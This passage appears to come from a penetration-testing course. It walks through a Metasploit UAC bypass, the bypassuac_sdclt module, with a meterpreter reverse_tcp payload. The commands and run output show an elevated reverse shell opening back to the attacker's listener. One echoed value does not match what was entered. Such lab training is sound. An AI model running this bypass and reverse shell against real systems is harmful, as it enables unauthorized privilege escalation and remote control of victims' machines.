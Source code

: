 ```bash
msf6 exploit(multi/handler) > search UAC
```

The search yields quite a few results. One very effective UAC bypass on modern Windows systems is exploit/windows/local/bypassuac_sdclt, which targets the Microsoft binary sdclt.exe. This binary can be abused to bypass UAC by spawning a process with integrity level High.6

To use the module, we'll activate it and set the SESSION and LHOST options as shown in the following listing. Setting the SESSION for post-exploitation modules allows us to directly execute the exploit on the active session. Then, we can enter run to launch the module.

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION                        yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
SESSION => 32
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.119.4
LHOST => 192.168.119.4
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of 'C:\Users\offsec\AppData\Local\Temp\KzjRPQbrhdj.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (200774 bytes) to 192.168.50.223
[*] Meterpreter session 10 opened (192.168.119.4:4444 -> 192.168.50.223:49740) at 2022-08-04 09:03:54 -0400
[*] Registry Changes Removed

meterpreter > 
```
